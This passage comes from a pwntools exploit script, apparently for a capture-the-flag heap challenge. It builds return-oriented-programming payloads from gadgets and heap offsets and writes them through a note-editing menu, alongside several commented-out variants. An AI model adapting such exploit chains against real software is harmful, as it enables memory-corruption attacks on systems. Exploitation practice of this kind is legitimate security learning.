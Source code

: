 ```python
    pop_rsi_rbp, 
    feedback_chunk - 0x1e0,
    heap + 0x7ef380, # saved rbp from gdb
    pop_rbx_r12, 0xfffffffffffffff, 0xdeadbeef,
    pop_rdx, 0x800,
    try_alloc,
    pop_rsp_rbp, return_to
)
payload = flat(
    pop_rdi + 1,
    pop_rdi, 0x4000,
    pop_rsi_rbp, 
    feedback_chunk - 0x850,
    heap + 0x7ef380, # saved rbp from gdb
    pop_rbx_r12, 0xfffffffffffffff, 0xdeadbeef,
    pop_rdx, 0x800,
    try_alloc,
    pop_rsp_rbp, return_to
)
edit_note(0, payload)

# payload = flat(
#     pop_rdi + 1,
#     pop_rdi, 0x4000,
#     pop_rsi_rbp, 
#     feedback_chunk - 0xc0,
#     heap + 0x7ef380, # saved rbp from gdb
#     pop_rbx_r12, 0xfffffffffffffff, 0xdeadbeef,
#     pop_rdx, 0x800,
#     try_alloc,
#     pop_rsp_rbp, return_to
# )
# edit_note(0, payload)

# payload = flat(
#     pop_rdi + 1,
#     pop_rdi, 0x4000,
#     pop_rsi_rbp, 
#     feedback_chunk,
#     heap + 0x7ef380, # saved rbp from gdb
#     pop_rbx_r12, 0xfffffffffffffff, 0xdeadbeef,
#     pop_rdx, 0x800,
#     try_alloc,
#     pop_rsp_rbp, return_to
# )
# edit_note(0, payload)

# p.sendlineafter(b">", b"3")
# p.sendlineafter(b"Enter index of note:", b"0")


p.sendlineafter(b">", b"7")

p.sendlineafter(b">", b"1")


if args.LOCAL and not args.GDB and not args.NOGDB:
    gdb.attach(p, 
           # gdbscript="""
           #     b *_ZN7sandbox21MemoryServiceProvider3runEv+450
           #     b *_ZN7sandbox21MemoryServiceProvider3runEv+840
           # """
               # b *_ZN7sandbox21MemoryServiceProvider3runEv+450
```